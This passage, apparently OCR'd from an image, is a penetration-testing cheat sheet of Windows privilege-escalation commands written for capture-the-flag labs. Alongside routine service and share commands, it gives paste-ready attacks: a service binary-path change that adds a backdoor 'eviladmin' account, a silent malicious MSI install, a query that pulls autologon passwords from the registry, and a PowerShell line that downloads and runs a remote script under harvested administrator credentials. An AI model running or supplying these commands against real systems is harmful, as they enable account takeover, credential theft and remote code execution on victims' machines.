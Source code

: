   - Restarting: `sc stop "Vulnerable Service"` /  `net stop <name>`
  - Start: `sc start "Vulnerable Service"` /  `net start <name>`
  - Service information: `Get-Service​ ​ "Ubiquiti UniFi Video"​ | fl *`
  - Restart PC: `shutdown /r /t 0`
  - Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`
  - Disable: `sc config servicename start= disabled`
  - Enable: `sc config servicename start= demand`
  - Auto: `sc config servicename start= auto`
  - Keep alive - When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it's not, `Service Control Manager` will terminates the process.
- Installing MSI
    ```
    msiexec /quiet /qn /i malicious.msi
    ```
    ```
    /quiet = Suppress any messages to the user during installation
    /qn = No GUI
    /i = Regular (vs. administrative) installation
    ```
- Extract ZIP
    ```powershell
    Add-Type -assembly
    'system.io.compression.filesystem';[io.compression.zipfile]::ExtractToDirectory
    ("C:\backup.zip","C:\Example\")
    ```
- View File Systems
    ```
    gdr -PSProvider 'FileSystem'
    ```
- Access shared volume
    ```
    net use y: \\10.10.10.57\c$ /user:administrator 1234test
    ```
- Open password protected share
    ```powershell
    net use \\server\share /user:test testpassword
    start \\server\share
    ```
- Auto Save Password to PowerShell
    ```powershell
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    ```
    ```powershell
    $passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
    $creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
    ```
- Permissions: `whoami /priv`
  - View Permisions: `cacls C:\Users\Administrator\Desktop\root.txt`
  - Grant Permissions`cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F`
    ```powershell
    cacls "c:\users\Administrator\Desktop\root.txt" /E /P Alfred:F
